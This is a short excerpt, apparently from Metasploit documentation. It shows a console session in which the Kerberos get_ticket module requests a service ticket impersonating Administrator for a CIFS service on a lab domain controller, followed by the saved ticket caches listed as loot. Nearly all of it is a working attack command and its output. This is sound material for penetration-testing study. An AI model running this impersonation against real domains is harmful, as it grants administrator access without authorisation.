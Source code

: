 - TGS impersonating the Administrator account
```
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local user=serviceA password=123456 action=GET_TGS spn=cifs/dc02.mylab.local impersonate=Administrator
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/dc02.mylab.local)
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: servicea          /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
```

